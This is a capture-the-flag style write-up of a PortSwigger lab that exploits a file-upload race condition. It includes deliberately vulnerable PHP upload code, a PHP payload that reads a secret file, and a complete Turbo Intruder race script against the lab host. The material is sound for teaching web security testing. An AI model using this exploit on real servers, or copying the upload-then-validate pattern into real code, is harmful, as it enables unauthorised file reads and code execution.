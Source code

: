 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/914556ea-6f29-45f9-a758-f4299e8aff18)

The vulnerable code that introduces this race condition is as follows:

```php
<?php
$target_dir = "avatars/";
$target_file = $target_dir . $_FILES["avatar"]["name"];

// temporary move
move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file);

if (checkViruses($target_file) && checkFileType($target_file)) {
    echo "The file ". htmlspecialchars( $target_file). " has been uploaded.";
} else {
    unlink($target_file);
    echo "Sorry, there was an error uploading your file.";
    http_response_code(403);
}

function checkViruses($fileName) {
    // checking for viruses
    ...
}

function checkFileType($fileName) {
    $imageFileType = strtolower(pathinfo($fileName,PATHINFO_EXTENSION));
    if($imageFileType != "jpg" && $imageFileType != "png") {
        echo "Sorry, only JPG & PNG files are allowed\n";
        return false;
    } else {
        return true;
    }
}
?>
```
## Overview :

 Modern frameworks are more battle-hardened against these kinds of attacks. They generally don't upload files directly to their intended destination on the filesystem. Instead, they take precautions like uploading to a temporary, sandboxed directory first and randomizing the name to avoid overwriting existing files. They then perform validation on this temporary file and only transfer it to its destination once it is deemed safe to do so.

That said, developers sometimes implement their own processing of file uploads independently of any framework. Not only is this fairly complex to do well, it can also introduce dangerous race conditions that enable an attacker to completely bypass even the most robust validation.

For example, some websites upload the file directly to the main filesystem and then remove it again if it doesn't pass validation. This kind of behavior is typical in websites that rely on anti-virus software and the like to check for malware. This may only take a few milliseconds, but for the short time that the file exists on the server, the attacker can potentially still execute it. 

## Solution :

In the source code in the HINT, the uploaded file is moved to an accessible folder, where it is checked for viruses. Malicious files are only removed once the virus check is complete. This means it's possible to execute the file in the small time-window before it is removed. 


When we upload a jpg or png image, it is sucessfully uploaded but when we upload a php file it is not.

The request sent when uploading the file is as follows,

```http
POST /my-account/avatar HTTP/2
Host: 0ad000ee03ff349488b6ffd300a70063.web-security-academy.net
Cookie: session=D3xgs3pRL7IRTGBSbWYVm062htgTuqyM
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------347008415039430862643146782233
Content-Length: 543
Origin: https://0ad000ee03ff349488b6ffd300a70063.web-security-academy.net
Referer: https://0ad000ee03ff349488b6ffd300a70063.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

-----------------------------347008415039430862643146782233
Content-Disposition: form-data; name="avatar"; filename="read.php"
Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>

-----------------------------347008415039430862643146782233
Content-Disposition: form-data; name="user"

wiener
-----------------------------347008415039430862643146782233
Content-Disposition: form-data; name="csrf"

14YoiPx7PojQdqNsQczy8HdKntOfFmOb
-----------------------------347008415039430862643146782233--
```

Send the request to **Turbo Intruder**.

Paste the following python code -

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''<YOUR-POST-REQUEST>'''

    request2 = '''<YOUR-GET-REQUEST>'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```

In the script, replace

- `<YOUR-POST-REQUEST>` with the entire POST request (**POST /my-account/avatar**)
- `<YOUR-GET-REQUEST>` with the entire GET request (**GET /files/avatars/read.php**)

The final payload - 

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''POST /my-account/avatar HTTP/2
Host: 0ad000ee03ff349488b6ffd300a70063.web-security-academy.net
Cookie: session=D3xgs3pRL7IRTGBSbWYVm062htgTuqyM
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------347008415039430862643146782233
Content-Length: 543
Origin: https://0ad000ee03ff349488b6ffd300a70063.web-security-academy.net
Referer: https://0ad000ee03ff349488b6ffd300a70063.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

-----------------------------347008415039430862643146782233
Content-Disposition: form-data; name="avatar"; filename="read.php"
Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>

-----------------------------347008415039430862643146782233
Content-Disposition: form-data; name="user"

wiener
-----------------------------347008415039430862643146782233
Content-Disposition: form-data; name="csrf"

14YoiPx7PojQdqNsQczy8HdKntOfFmOb
-----------------------------347008415039430862643146782233--
'''

    request2 = '''GET /files/avatars/read.php HTTP/2
Host: 0ad000ee03ff349488b6ffd300a70063.web-security-academy.net
Cookie: session=D3xgs3pRL7IRTGBSbWYVm062htgTuqyM
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers

'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```

Click on **ATTACK** to start the attack.

In the results list, there some of the **GET requests received a 200 response** containing Carlos's secret. T**hese requests hit the server after the PHP file was uploaded, but before it failed validation and was deleted**. 


![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/9bad09c4-2884-4194-b49d-e3efe6f2cc5a)

Submit the secret to solve the lab.

SECRET - `2ytyOEzFnkFGyh9rKrJvEZHqBZs0p534`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/c98da30c-f466-4741-b2c7-6c7967102c7d)

